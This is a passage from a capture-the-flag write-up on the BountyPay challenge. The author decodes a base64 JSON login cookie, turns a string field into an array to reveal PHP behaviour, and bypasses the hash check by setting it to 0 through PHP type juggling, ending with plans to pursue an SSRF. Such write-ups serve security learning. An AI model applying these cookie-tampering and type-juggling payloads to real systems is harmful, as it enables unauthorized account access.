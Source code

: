 Glancing over at the Burp proxy history, we see the form submissions to go [/statements?month=01&year=2020](https://app.bountypay.h1ctf.com/statements?month=01&year=2020). The JSON output this returns indicates it's a wrapper around a method on the API site:

```json
{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/statements?month=01&year=2020","data":"{\"description\":\"Transactions for 2020-01\",\"transactions\":[]}"}
```

Using Burp Intruder to add punctuation marks to month and year has no effect. Attempting to visit the API url directly gives an error about a missing token.

We also see that a file called [app.js](https://app.bountypay.h1ctf.com/js/app.js) was loaded. It contains the code that calls `/statements/`, as well as code to render the results. We see that results rows link to `/pay/{id}/{hash}`. Trying [a random number and MD5 hash](https://app.bountypay.h1ctf.com/pay/5/5ca3e50bd0b0c9b94915573b64b664be), we get an error 'Invalid payment details'. While we can't jump to making payments at this time, we know that wherever the CTF leads, we'll probably end up back here.

## Analysis of the `token` cookie

Using CyberChef to decode the log in cookie we get:

```json
{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}
```

There's the account ID from the API site URL. We've probably found the SSRF.

However, the first thing I like to do with JSON parameters is to change the data type of the parameters and see what happens. I use the [Hackvertor Burp plugin](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) and replace the token cookie value with:

```
<@base64_2>{"account_id":["F8gHiqSdpK"],"hash":"de235bffd23df6995ad4e0930baac1a2"}<@/base64_2>
```

The account\_id parameter, which is expected to be a string, is now an array. In response we get:

```json
{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/Array\/statements?month=01&year=2020","data":"[\"Invalid Account ID\"]"}
```

This tells us two things:
1. This site is probably built with PHP. (The string value of an array in PHP is 'Array')
1. The value of account\_id doesn't seem to matter to the app site. It just blindly forwards it to the API site.

PHP is famous for its [type juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf). In particular, how `"any string" == 0`. Let's try it.

```
<@base64_2>{"account_id":"F8gHiqSdpK","hash":0}<@/base64_2>
```

We get the same successful response from earlier.

In summary, account\_id matters to the API site, and hash matters to the app site. If account\_id were easily enumerable, we could stop here. But brute forcing it is worst case 62^10 = 8.3929937e+17 , so that's probably not going to happen. Back to the SSRF we go.
